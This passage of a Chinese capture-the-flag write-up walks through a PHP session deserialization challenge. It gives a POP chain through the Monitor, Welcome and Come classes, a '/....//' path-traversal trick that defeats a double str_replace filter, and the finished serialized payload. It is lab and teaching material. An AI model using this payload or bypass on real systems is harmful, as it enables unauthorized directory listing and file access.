 ```



$c = new Monitor();
$d= str_replace('"', '\\"', serialize($c));
var_dump($d);
?>
```
注意两个地方：
1. `$this->test =new Welcome();`，这个反序列化的利用逻辑就是通过`Monitor`类的`__destruct`方法调用到`Welcome`类的`__toString`方法，再调用到`Come`类的`execute`方法，达到执行函数的目的，其中，`execute`方法中，由于是`$this->method`，所以只能调用类的方法，不能随便调用系统函数，也就是`get_dir`方法。
2. `$this->obj=new Come('get_dir',array('/....//var/www/html'));`这里主要两点，首先是路径必须以数组的形式传，因为`call_user_func_array`函数要求传入数组作为参数，其次是绕过waf，这个waf太好绕过了，因为这种利用两个`str_replace()`的waf，通常可以利用后一个来绕过前一个，所以/....//就会变成/../就可以跳到上一目录了

从而得到payload:
```
"O:7:\"Monitor\":1:{s:4:\"test\";O:7:\"Welcome\":2:{s:3:\"obj\";O:4:\"Come\":2:{s:6:\"method\";s:7:\"get_dir\";s:4:\"args\";a:1:{i:0;s:19:\"/....//var/www/html\";}}s:3:\"var\";s:7:\"{$_GET}\";}}"
```
也是要注意，里面的双引号前面记得加上\作为转义符，并且最前面的O之前需要加一个 | ,这都是php_session反序列化的格式

最后说一点，这题目权限给的很低，我当时读取根目录都无法读取，整个系统似乎就/tmp与/var/www/html有读权限，这其实挺坑的。。害得我一度怀疑人生。

有一说一，这个题拿来练习做好不过了，准备等学弟学反序列化了，考考他们(我真过分)。
